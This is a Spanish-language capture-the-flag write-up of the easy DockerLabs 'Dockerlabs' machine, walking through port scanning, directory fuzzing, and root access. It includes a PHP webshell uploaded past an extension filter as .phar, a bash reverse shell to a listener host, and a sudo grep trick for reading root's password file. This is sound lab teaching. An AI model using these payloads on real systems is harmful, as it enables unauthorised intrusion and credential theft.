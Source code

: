 ```yaml
---
layout: post
title: "Dockerlabs"
date: 2024-10-11
 12:40:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Dockerlabs </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubriendo puertos de la maquina objetivo, tenemos funcionando el servicio apache.

`sudo nmap -p- -T5 --min-rate=5000 --open -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/dockerlabs/nmap.png){:.margin}

**2\.** No encontramos nada importante en la web.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/dockerlabs/80.png){:.margin}

**3\.** Realizamos un poco de fuzzing y encontramos dos ficheros .php.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/dockerlabs/gobuster.png){:.margin}

**4\.** Revisamos estas paginas, en el fichero machine.php tenemos una subida de archivos.

`http://172.17.0.2/machine.php`

![img](/notas/public/img/dockerlabs/dockerlabs/80machine.png){:.margin}

**5\.** Creamos nuestro archivo para obtener una webshell, intentamos subir el archivo pero no nos permite.

`nano shell.php`

`<?php system($_GET['cmd']);?>`

![img](/notas/public/img/dockerlabs/dockerlabs/nanoshell.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/errorupload.png){:.margin}

**6\.** Probando con extensiones variantes de php logro subir el fichero con extension .phar, nuestro fichero lo encontramos en el directorio uploads.

`http://172.17.0.2/uploads/shell.phar`

![img](/notas/public/img/dockerlabs/dockerlabs/okupload.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/fileshell.png){:.margin}

**7\.** Nos ponemos en escucha con nc y nos enviamos una reverse shell; ya tenemos acceso a la maquina.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.phar?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/dockerlabs/nc.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/ncok.png){:.margin}

**8\.** En este punto reviso los privilegios sudo del usuario y encuentro dos binarios, ademas de que encuentro una nota en opt.

`sudo -l`

`cat /opt/nota.txt`

![img](/notas/public/img/dockerlabs/dockerlabs/sudol.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/nota.png){:.margin}

**9\.** Ambos binarios nos sirve para poder obtener el contenido de un fichero, nos podemos ayudar con gtfobins para el uso de [grep](https://gtfobins.github.io/gtfobins/grep/#sudo) o [cut](https://gtfobins.github.io/gtfobins/cut/#sudo).

`sudo /usr/bin/grep '' /root/clave.txt`

![img](/notas/public/img/dockerlabs/dockerlabs/clave.png){:.margin}

**10\.** Ya con la clave en mano solo nos queda migrar al usuario root.

`su root`

![img](/notas/public/img/dockerlabs/dockerlabs/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>